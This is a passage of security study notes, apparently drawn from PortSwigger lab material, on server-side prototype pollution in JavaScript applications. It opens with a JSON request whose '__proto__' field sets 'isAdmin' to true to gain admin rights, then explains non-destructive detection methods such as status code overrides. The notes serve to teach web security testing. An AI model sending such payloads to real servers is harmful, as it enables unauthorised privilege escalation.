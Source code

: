 So we send the following req and we become an admin:
```bash
{
    "address_line_1":"Wiener2 HQ",
    "address_line_2":"One Wiener Way",
    "city":"Wienerville",
    "postcode":"BU1 1RP",
    "country":"UK",
    "sessionId":"qDR2S8JVooiqc640hOjYyO6Jsp88aMWf",
	"__proto__":{
        "isAdmin":true
    }
}
```

Notice that the `isAdmin` value in the response has been updated. This suggests that the object doesn't have its own `isAdmin` property, but has instead inherited it from the polluted prototype

### Detecting server-side prototype pollution without polluted property reflection
Most of the time, even when you successfully pollute a server-side prototype object, you won't see the affected property reflected in a response. Given that you can't just inspect the object in a console either, this presents a challenge when trying to tell whether your injection worked.

One approach is to try injecting properties that match potential configuration options for the server. You can then compare the server's behavior before and after the injection to see whether this configuration change appears to have taken effect. If so, this is a strong indication that you've successfully found a server-side prototype pollution vulnerability. 

In this section, we'll look at the following techniques:
- Status code override
- JSON spaces override
- Charset override

All of these injections are non-destructive, but still produce a consistent and distinctive change in server behavior when successful.

This is just a small selection of potential techniques to give you an idea of what's possible. For more technical details and an insight into how PortSwigger Research was able to develop these techniques, check out the accompanying whitepaper Server-side prototype pollution: Black-box detection without the DoS by Gareth Heyes: 
```
https://portswigger.net/research/server-side-prototype-pollution
```

### Status code override
Server-side JavaScript frameworks like Express allow developers to set custom HTTP response statuses. In the case of errors, a JavaScript server may issue a generic HTTP response, but include an error object in JSON format in the body. This is one way of providing additional details about why an error occurred, which may not be obvious from the default HTTP status.

Although it's somewhat misleading, it's even fairly common to receive a 200 OK response, only for the response body to contain an error object with a different status.
```bash
HTTP/1.1 200 OK
...
{
    "error": {
        "success": false,
        "status": 401,
        "message": "You do not have permission to access this resource."
    }
}
```

